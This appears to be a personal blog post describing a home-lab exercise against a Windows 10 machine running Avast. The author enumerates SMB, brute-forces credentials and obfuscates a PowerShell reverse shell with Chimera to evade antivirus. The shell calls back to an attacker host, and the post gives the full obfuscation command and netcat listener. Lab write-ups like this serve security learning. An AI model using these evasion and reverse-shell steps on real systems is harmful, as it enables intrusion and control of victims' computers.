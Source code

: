 ```yaml
---
layout: post
date: 2024-02-22
title: "ObFuSCaTInG AvASt"
categories: []
tags: []
---
```


Greetings! I was bored so I decided to see how hard it would be to bypass a simple home antivirus. I googled "free antivirus" and the first thing that popped-up was [Avast](https://www.avast.com/en-us/index#pc). I installed the x64 executable on an updated Windows 10 Pro system (Note: This is a completely default install. I did not mess with any settings). I wanted to do this in a lab environment where I achieve access prior to trying to get around the antivirus. A screenshot confirming the antivirus is running can be seen below.

![Image of Avast showing the Windows PC is protected.](/assets/img/Obfuscating_Avast/Protected_Avast_Screenshot.png)

This lab environment is simply a Windows 10 Pro box with some professional modifications and an Attack Host (Kali Linux) on the same private network. Initially, I started an Nmap scan confirm the Windows host is alive and the services running.
![Screenshot of NMAP command against Windows 10 Host](/assets/img/Obfuscating_Avast/NMAP_Scan_Screenshot.png)

As seen in the screenshot above, SMB (Port 445) is running. To enumerate SMB, I used smbclient to successfully authenticate with the '-N' (no username/password) option. 
![Screenshot of SMBClient listing with null session to see shared drives](/assets/img/Obfuscating_Avast/SMBClient_List_Screenshot.jpeg)
Following successful connection, I attempted to place a file without a username and password. This attempt failed due to security settings as seen in the screenshot below. 

![Screenshot of SMBClient failing to put a file](/assets/img/Obfuscating_Avast/SMBClient_Put_Screenshot.jpeg)

The earlier screenshot had a comment from "lemon" - so let's try to brute-force credentials for username "lemon". The [Netexec](https://github.com/Pennyw0rth/NetExec) tool
![Netexec Brute-force for SMB screenshot](/assets/img/Obfuscating_Avast/Netexec_Brute_Force.jpeg)

We find credentials for `lemon:CHOCOLATE`
Then we can authenticate and attempt to place a reverse shell script [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

![Attempt to place a shell in the SMB share](/assets/img/Obfuscating_Avast/SMBClient_placing_shell.jpeg)

The reverse shell gets stuck uploading in the previous image. Swapping over to the Windows 10 host, there is a Warning from AVAST that quarantined the reverse shell as it was uploaded. 
![Warning from AVAST for Reverse Shell](/assets/img/Obfuscating_Avast/AVAST_Reverse_Shell_warning.jpeg)

Avast was likely able to detect a threat here because [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) is a seven year-old reverse shell script with around 8,000 stars on Github. Although this script isn't necessarily malware, it definitely isn't a script an administrator would commonly use. Thus, it is classified as a PUP (Potentially Unwanted Program) and blocked.

My initial thought to evade detection is to obfuscate the script. Through my professional Googling I was able to find a script called [Chimera](https://github.com/tokyoneon/Chimeramade) made  by [TokyoNeon](https://x.com/tokyoneon_?s=20).

>Chimera is a (shiny and very hack-ish) PowerShell obfuscation script designed to bypass AMSI and antivirus solutions. It digests malicious PS1's known to trigger AV and uses string substitution and variable concatenation to evade common detection signatures.

So, I cloned the repository and adjusted the last line in the reverse shell in `shells/Invoke-PowerShellTcp.ps1` to: 

```
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.0.175 -Port 8080
```

Once that is saved, I ran the script `chimera.sh` with options provided from `README.md`:

```
./chimera.sh -f shells/Invoke-PowerShellTcp.ps1 -l 3 -o /home/kali/NotAVirus.ps1 -v -t powershell,windows,\
copyright -c -i -h -s length,get-location,ascii,stop,close,getstream -b new-object,reverse,\
invoke-expression,out-string,write-error -j -g -k -r -p
```

This obfuscates the script and places it in the home directory. Next, I started a listener on my host:

```
nc -lnvp 8080
```
Let's test. I uploaded the script via smbclient using lemon's credentials as we did before.  

![Successfully uploading Virus file to Windows Host - Also, why are you reviewing my source code?](/assets/img/Obfuscating_Avast/Uploading_Virus_Successfully.jpeg)

After waiting for a few minutes for the script to automatically execute, the netcat listener receives a connection back from the Windows host.

![Connection recieved from the reverse shell screenshot](/assets/img/Obfuscating_Avast/Reverse_Shell_Recieved.png)

To test command execution, I issued `whoami /groups` which reveals the current user is an administrator.

![Output from the command "Whoami /groups"](/assets/img/Obfuscating_Avast/WHOAMI_GROUPS_SCREENSHOT.png)

Furthermore, I confirmed the connection was active in command prompt with `netstat` and Avast wasn't showing any alerts. I would assume this is because an outgoing connection via PowerShell isn't inherently malicious. If anything, this demonstration shows the downfalls of signature-based detections.

![Checking netstat in cmd prompt and Antivirus status](/assets/img/Obfuscating_Avast/Connection_Active_Protected_Screenshot.jpeg)

Issuing additional commands to confirm I have administrator privileges and the reverse shell works:

![Screenshot with additional commands in Administrator's home directory](/assets/img/Obfuscating_Avast/Confidential_Screenshot.jpeg)

This was a fun exercise to try and get around pesky AVs. Further documentation and reading on the obfuscation script can be found here:
I hope you enjoyed reading! 

Additional resources:

- [Null Byte website](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-bypass-virustotal-amsi-detection-signatures-with-chimera-0333967/)
- [Chimera Github Link](https://github.com/tokyoneon/Chimera)
- [Trend Micro ASMI bypass techniques](https://www.trendmicro.com/en_vn/research/22/l/detecting-windows-amsi-bypass-techniques.html)

